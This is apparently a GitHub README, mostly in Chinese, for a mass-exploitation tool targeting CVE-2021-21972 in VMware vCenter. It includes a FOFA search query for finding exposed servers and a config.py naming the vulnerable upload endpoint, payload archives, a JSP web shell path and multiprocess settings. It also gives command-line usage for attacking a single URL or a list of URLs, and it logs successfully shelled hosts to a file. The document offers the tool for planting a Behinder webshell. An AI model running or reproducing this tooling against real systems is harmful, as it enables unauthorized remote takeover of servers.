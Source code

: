 ## CVE-2021-21972 Exploit ##
参考链接:  
[CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞分析](http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/)  
[CVE-2021-21972-NS-Sp4ce](https://github.com/NS-Sp4ce)

tips：  
为日后像什么补丁修复存在漏洞留下可扩展性配置，至于6.7和7.0的exp过程还没有见到详细的，有的话后续会补上  
getshell成功的url会保存在shellurl.txt

shell:  
冰蝎3.0的马子，对照Sp4ce项目的Linux.tar

搜索语法：
```text
fofa:body="VMware vSphere"
```

config.py
```python
PAYLOAD={"6.5":{"exppath":"payload/6.5.tar","shellurl":"/ui/resources/shell.jsp"}} #对应版本和exp、shell路径配置
BUGURL=["/ui/vropspluginui/rest/services/uploadova"] #漏洞url
BUGCODE=[405] #检测状态码
PROCESSNUMBER=30 #多进程数量
UPLOADSUCESS=["SUCCESS"] #上传成功判断
TIMEOUT=5 #超时
HEADER={"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36",
        "Cache-Control":"no-cache",
        "Pragma":"no-cache"}
```
Example:
```text
Usage: exp.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      remote url
  -v VERSION  vCenter version,version exp list:6.5
  -f FILE     file
python exp.py -u <url> -v <version>
python exp.py -f <file> -v <version>
```

![](img/fuckvm.png)

![](img/check.png)


